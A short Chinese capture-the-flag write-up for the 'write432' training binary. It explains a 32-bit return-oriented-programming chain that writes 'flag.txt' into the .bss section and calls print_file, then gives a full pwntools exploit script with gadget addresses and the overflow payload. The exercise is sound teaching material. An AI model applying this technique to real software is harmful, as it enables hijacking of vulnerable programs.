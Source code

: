 # write432

> 我们需要执行print_file("flag.txt")，32位要用栈传递参数。

1. 把bss的首地址弹到%edi，把'flag'弹到%ebp，然后把%ebp（'flag'）传递给%edi所指向的地址，即bss的首地址。

2. 同理，把bss+4的地址弹到%edi，把'.txt'弹到%ebp，然后把%ebp（'.txt'）传递给%edi所指向的地址，即bss+4。

3. 同理，把bss+8的地址弹到%edi，把'\0'弹到%ebp，然后把%ebp（'\0'）传递给%edi所指向的地址，即bss+8。

4. 最后，调用print_file()，参数地址设置在bss段首地址。

Exp:
```python
import pwn
  
pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./write432')
e = pwn.ELF('./write432')
libwrite432 = pwn.ELF('./libwrite432.so')

print_file_plt = pwn.p32(e.plt['print_file'])
bss_addr = e.bss()                          # bss段的首地址
pop_edi_ebp_addr = pwn.p32(0x080485aa)        # pop edi ; pop ebp ; ret
mov_ebp__edi__addr = pwn.p32(0x08048543)      # mov %ebp (%edi) ; ret 

'''
for k, v in e.sym.items():
    print(k, hex(v))
'''

# pwn.gdb.attach(p)

payload = b'A' * 0x28 + b'B' * 4 + pop_edi_ebp_addr + pwn.p32(bss_addr) + b'flag' + mov_ebp__edi__addr  
#                                              pop bss_addr to edi  | pop 'flag' to ebp  | mov 'flag' to (%edi) -> bss_addr
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 4) + b'.txt' + mov_ebp__edi__addr
#                              pop bss+4 to edi  | pop '.txt' to ebp  | mov '.txt' to (%edi) -> bss+4
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 8) + pwn.p32(0) + mov_ebp__edi__addr
#                              pop bss+8 to edi  | pop '\0' to ebp  | mov '\0' to (%edi) -> bss+8
payload += print_file_plt + b'RRRR' + pwn.p32(bss_addr)                                                 
#                                   bss_addr = 'flag.txt\0'
p.sendlineafter(b'> ', payload)
p.recv()
```
